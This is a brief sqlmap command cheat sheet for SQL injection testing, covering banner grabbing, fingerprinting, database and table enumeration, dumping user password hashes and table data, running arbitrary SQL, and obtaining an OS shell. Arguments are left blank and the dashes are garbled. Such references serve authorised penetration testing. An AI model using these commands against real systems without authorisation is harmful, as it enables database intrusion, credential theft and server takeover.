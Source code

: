 Test URL and POST data and return database banner (if possible)
===============================================================

./sqlmap.py –url="” –data="” –banner

Parse request data and test | request data can be obtained with burp
====================================================================

./sqlmap.py -r

Fingerprint | much more information than banner
===============================================

./sqlmap.py -r –fingerprint

Get database username, name, and hostname
=========================================

./sqlmap.py -r –current-user –current-db –hostname

Check if user is a database admin
=================================

./sqlmap.py -r –is-dba

Get database users and password hashes
======================================

./sqlmap.py -r –users –passwords

Enumerate databases
===================

./sqlmap.py -r –dbs

List tables for one database
============================

./sqlmap.py -r -D –tables

Other database commands
=======================

./sqlmap.py -r -D –columns –schema –count

Enumeration flags
=================

./sqlmap.py -r -D -T -C -U

Extract data
============

./sqlmap.py -r -D -T -C –dump

Execute SQL Query
=================

./sqlmap.py -r –sql-query="”

Append/Prepend SQL Queries
==========================

./sqlmap.py -r –prefix="” –suffix="”

Get backdoor access to sql server | can give shell access
=========================================================

./sqlmap.py -r –os-shell
